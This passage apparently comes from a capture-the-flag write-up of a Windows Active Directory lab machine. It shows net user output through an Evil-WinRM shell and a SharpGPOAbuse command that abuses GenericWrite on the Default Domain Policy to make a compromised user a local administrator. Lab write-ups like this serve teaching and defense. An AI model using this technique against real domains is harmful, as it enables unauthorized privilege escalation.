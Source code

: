![GPO Managers has GenericWrite in Default Domain Policy](/assets/images/Office/gpo-managers-GenericWrite-on-Default-Domain-Policy.png)

Also, user hhogan (which we have pwned) belongs to "GPO Managers":

```powershell
*Evil-WinRM* PS C:\Windows\Temp\privesc3> net user hhogan
<SNIP>

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users         *GPO Managers
The command completed successfully.
```

So I can use [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) to modify the Default Domain Policy and make the machine do one of various things like add rights to a user, add a user to local admins group or add a immediate computer task. In my case, I will add user hhogan to localadmins. But first, we have to build the SharpGPOAbuse project using a Windows 10 VM and Visual Studio (open the .sln file, and click on Compile > Compile solution). Once builded, execute this command in victim machine:

```powershell
*Evil-WinRM* PS C:\Windows\Temp\privesc3> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount hhogan --GPOName "Default Domain Policy" --force
```

And you should belong to group Administrators:
